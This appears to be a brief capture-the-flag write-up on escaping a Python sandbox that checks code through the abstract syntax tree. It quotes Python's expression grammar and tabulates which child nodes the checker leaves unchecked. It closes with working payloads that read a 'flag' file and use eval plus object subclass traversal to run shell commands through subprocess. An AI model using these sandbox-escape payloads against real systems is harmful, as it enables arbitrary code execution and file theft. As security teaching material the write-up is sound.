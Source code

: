 ```
expr = BoolOp(boolop op, expr* values)
	     | BinOp(expr left, operator op, expr right)
	     | UnaryOp(unaryop op, expr operand)
	     | Lambda(arguments args, expr body)
	     | IfExp(expr test, expr body, expr orelse)
	     | Dict(expr* keys, expr* values)
	     | Set(expr* elts)
	     | ListComp(expr elt, comprehension* generators)
	     | SetComp(expr elt, comprehension* generators)
	     | DictComp(expr key, expr value, comprehension* generators)
	     | GeneratorExp(expr elt, comprehension* generators)
	     -- the grammar constrains where yield expressions can occur
	     | Yield(expr? value)
	     -- need sequences for compare to distinguish between
	     -- x < 4 < 3 and (x < 4) < 3
	     | Compare(expr left, cmpop* ops, expr* comparators)
	     | Call(expr func, expr* args, keyword* keywords,
			 expr? starargs, expr? kwargs)
	     | Repr(expr value)
	     | Num(object n) -- a number as a PyObject.
	     | Str(string s) -- need to specify raw, unicode, etc?
	     -- other literals? bools?

	     -- the following expression can appear in assignment context
	     | Attribute(expr value, identifier attr, expr_context ctx)
	     | Subscript(expr value, slice slice, expr_context ctx)
	     | Name(identifier id, expr_context ctx)
	     | List(expr* elts, expr_context ctx) 
	     | Tuple(expr* elts, expr_context ctx)

	      -- col_offset is the byte offset in the utf8 string the parser uses
	      attributes (int lineno, int col_offset)
```

区别案例：

| Original                                             | Implemented Checks    | Unchecked parts |
| ---------------------------------------------------- | --------------------- | --------------- |
| Lambda(arguments args, expr body)                    | 'Lambda': ['body']    | args            |
| ListComp(expr elt, comprehension* generators)        | 'ListComp': ['elt']   | generators      |
| Subscript(expr value, slice slice, expr_context ctx) | Subscript': ['value'] | slice, ctx      |

payload:

list: 

- 	`[e for e in list(open('flag'))]`
	 	`[1 for x in [eval("sys.stdout.write(repr([t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__']('subprocess').check_output('cat flag', shell=True)))")]]`
